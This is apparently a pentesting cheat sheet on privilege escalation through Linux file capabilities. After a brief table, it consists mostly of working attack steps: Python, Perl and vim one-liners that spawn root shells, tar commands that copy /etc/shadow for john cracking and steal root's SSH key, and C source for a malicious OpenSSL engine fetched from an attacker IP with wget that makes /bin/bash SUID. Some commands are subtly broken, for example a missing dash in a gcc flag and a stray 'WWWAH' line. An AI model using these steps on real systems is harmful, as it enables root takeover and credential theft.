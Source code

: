 # Linux Capabilities
Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.
The capabilities man page provides detailed information on its usage and options.

We can use the getcap tool to list enabled capabilities.
```
getcap -r \ 2>/dev/null
```
## 📝List of Capability
On the basis of functionality, the capability is categorized into total 36 in the count. Some of the majorly used are shown below.
```
Capabilities Name 			Description 
CAP_AUDIT_CONTROL 			Allow to enable and disable kernel auditing. 
CAP_AUDIT_WRITE 			Helps to write records to kernel auditing log. 
CAP_BLOCK_SUSPEND 			This feature can block system suspend. 
CAP_CHOWN 				Allow user to make arbitrary changes to file UIDs and GIDs. 
CAP_DAC_OVERRIDE 			This helps to bypass file read, write, and execute permission checks. 
CAP_DAC_READ_SEARCH 			This only bypass file and directory read/execute permission checks. 
CAP_FOWNER 				This enables to bypass permission checks on operations that normally require the file system UID of the process to match the 
WWWAH 					UID of the file. 
CAP_KILL 				Allow the sending of signals to processes belonging to others 
CAP_SETGID 				Allow changing of the GID 
CAP_SETUID 				Allow changing of the UID 
CAP_SETPCAP 				Helps to transferring and removal of current set to any PID. 
CAP_IPC_LOCK 				This helps to Lock memory 
CAP_MAC_ADMIN 				Allow MAC configuration or state changes. 
CAP_NET_RAW 				Use RAW and PACKET sockets; And helps to bind any address for transparent proxying. 
CAP_NET_BIND_SERVICE 			SERVICE Bind a socket to Internet domain privileged ports
```
GTFObins [https://gtfobins.github.io/#] has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.

## 📌Privilege Escalation using vim= cap_setuid+ep Capabilitie
**Step-1:** Run getcap command to list capabilities
```
getcap -r / 2>/dev/null
```
Please note that neither vim nor its copy has the SUID bit set. This privilege escalation vector is therefore not discoverable when enumerating files looking for SUID.
**Step-2:** Search GTFObins to it's exploit. We notice that vim can be used with the following command and payload:
```
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
Launch the payload and a root shell.

## 📌Python
```
getcap -r / 2>/dev/null         
/usr/bin/python2.6 = cap_setuid+ep
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id && whoami

OR

getcap -r / 2>/dev/null  
/usr/bin/python3 = cap_setuid+ep
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id && whoami
```

## 📌Perl
```
getcap -r / 2>/dev/null         
/usr/bin/perl = cap_setuid+ep
/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
id && whoami
```

## 📌Tar

### Method-1️⃣:
```
Victim

getcap -r / 2>/dev/null         
/usr/bin/tar = cap dac read search+ep
/usr/bin/tar -cvf shadow.tar /etc/shadow
/usr/bin/tar -xvf shadow.tar
cat etc/shadow
Copy content of users accounts to a local file called shadow

Attacker

john shadow --wordlist=/usr/share/wordlists/rockyou.txt
Crack root's credentials

Victim

su root
id && whoami
```
### Method-2️⃣:
```
Victim

getcap -r / 2>/dev/null         
/usr/bin/tar = cap dac read search+ep
/usr/bin/tar -cvf key.tar /root/.ssh/id_rsa
/usr/bin/tar -xvf key.tar
cat id_rsa
# Download id_rsa to attacker machine

Attacker

chmod 600 id_rsa
ssh -i id_rsa root@<victim_ip>
id && whoami
```

## 📌OpenSSL

### 🎯Victim:
```
getcap -r / 2>/dev/null         
/usr/bin/openssl = cap_setuid+ep
```
### 💀Attacker Create a .so file - Code below vi priv.c
```
#include <openssl/engine.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static const char *engine_id = "test";
static const char *engine_name = "hope it works";

static int bind(ENGINE *e, const char *id)
{
  int ret = 0;

  if (!ENGINE_set_id(e, engine_id)) {
    fprintf(stderr, "ENGINE_set_id failed\n");
    goto end;
  }
  if (!ENGINE_set_name(e, engine_name)) {
    printf("ENGINE_set_name failed\n");
    goto end;
  }
  setuid(0);
  setgid(0);
  system("chmod +s /bin/bash");    
  system("echo Complete!");
  ret = 1;
 end:
  return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
Compile Code & Create .so file
```
gcc -c fPIC priv.c -o priv
gcc -shared -o priv.so -lcrypto priv
```
### 🎯Victim: Download .so from Attacker
```
wget -O /tmp/priv.so http://10.10.10.10:9000/priv.so
// Replace IP & Port
```
### 💀 Attacker: Get Root
```
openssl req -engine /tmp/priv.so
/bin/bash -p
id && whoami
```

# 🔍Resources
If you want to see the other capabilities to escalate your privilege then check these articals:

- https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
- https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#capabilities
